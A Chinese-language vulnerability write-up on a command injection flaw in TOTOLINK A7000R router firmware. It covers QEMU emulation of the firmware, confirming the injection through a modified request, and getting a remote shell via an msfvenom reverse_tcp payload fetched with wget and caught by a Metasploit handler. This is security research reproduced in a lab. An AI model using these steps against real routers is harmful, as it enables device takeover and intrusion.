 ## 漏洞描述
漏洞类型：命令注入

版本：A7000R V9.1.0u.6115_B20201022

漏洞位置：`setDiagnosisCfg`的ip参数

固件下载地址：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html

## 漏洞分析
在sub_4211DDC（位于`www//cgi-bin/cstecgi.cgi`）中，获取了ip参数保存到Var变量中，然后Var经过sprintf函数拼接都了v6参数中，随后v6被当作命令执行。

![](images/Pasted%20image%2020230823111231.png)


## 漏洞复现
采用全系统仿真，配置主机网络

```
sudo brctl addbr virbr2 # 创建网桥  
sudo ifconfig virbr2 192.168.122.1/24 up # 配置网桥IP  
sudo tunctl -t tap2 # 添加虚拟网卡tap2  
sudo ifconfig tap2 192.168.122.11/24 up # 配置虚拟网卡IP  
sudo brctl addif virbr2 tap2 # 配置虚拟网卡与网桥连接
```

启动全系统仿真

```
sudo qemu-system-mipsel \  
-M malta \  
-cpu 74Kf \  
-m 2G \  
-object rng-random,id=rng0,filename=/dev/urandom -device virtio-rng-pci,rng=rng0 \  
-kernel vmlinux-3.2.0-4-4kc-malta \  
-hda debian_wheezy_mipsel_standard.qcow2 \  
-append "root=/dev/sda1 console=tty0" \  
-netdev tap,id=tapnet,ifname=tap2,script=no \  
-device rtl8139,netdev=tapnet \  
-nographic
```

root:root登录，设置客户机eth0 ip：

```
ifconfig eth0 192.168.122.15 up # 配置路由器IP
```

注释掉配置文件`/lighttpd/lighttpd.conf`并将指定pid文件那一行

![](images/Pasted%20image%2020230823104639.png)

将文件系统从主机传到客户机上

```
scp -r squashfs-root/ root@192.168.122.15:/root/ # 拷贝路由器文件到虚拟机
```

chroot启动http服务

```
chroot ./squashfs-root/ /bin/sh   
/usr/sbin/lighttpd -f /lighttp/lighttpd.conf -m /lighttp/lib    #-m指定动态链接库所在文件夹
```

![](images/Pasted%20image%2020230823111811.png)

主机浏览器访问，可以访问得到

![](images/Pasted%20image%2020230823104729.png)

用Burpsuite抓取数据包修改，如图所示，执行ls命令可以得到结果，命令成功被执行。

![](images/Pasted%20image%2020230823104959.png)
## exploit
利用msf获取shell

### 安装msf
在ubuntu上安装msf的方法([Ubuntu快速安装MSF](https://www.cnblogs.com/tomyyyyy/p/12813299.html))：运行官方安装脚本

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \chmod 755 msfinstall && \./msfinstall
```

安装postgresql数据库，确认服务启动

```
sudo apt install postgresql
sudo service postgresql status
```

输入`msfconsole`，提示是否建立一个数据库，选择`y`。

输入`search windows` 测试数据库是否可用，可用到此结束。

### payload
利用msfvenom命令生成payload

```
msfvenom -p linux/mipsle/shell/reverse_tcp LHOST=192.168.122.11 LPORT=1234 -f elf > payload.elf
```

然后主机payload目录开启python http服务，通过命令执行让客户端wget下载payload

![](images/Pasted%20image%2020230823105817.png)

![](images/Pasted%20image%2020230823105904.png)

此时客户机上已经有了相应文件

![](images/Pasted%20image%2020230823105940.png)

接下来通过命令执行赋给payload.elf执行权限
```
chmod +x payload.elf
```

在主机上输入`msfconsole` 开启msf并配置运行

```
use exploit/multi/handler  
set payload linux/mipsle/shell/reverse_tcp  
set lhost 192.168.122.11  
set lport 1234
run
```

![](images/Pasted%20image%2020230823110320.png)

接着通过命令执行漏洞让客户端执行payload.elf：`./paylaod.elf`，然后主机就获取到了客户机的shell。

![](images/Pasted%20image%2020230823110557.png)

参考链接：

[TOTOLINK CVE-2022-37083 漏洞分析&复现 (qq.com)](https://mp.weixin.qq.com/s/ySKTpj8-u7Fk1mJzu8NLig)

[对tenda getshell之后的reverse_shell | ZhouYetao](https://zhouyetao.github.io/2021/09/19/%E5%AF%B9tenda%20getshell%E4%B9%8B%E5%90%8E%E7%9A%84reverse_shell/)
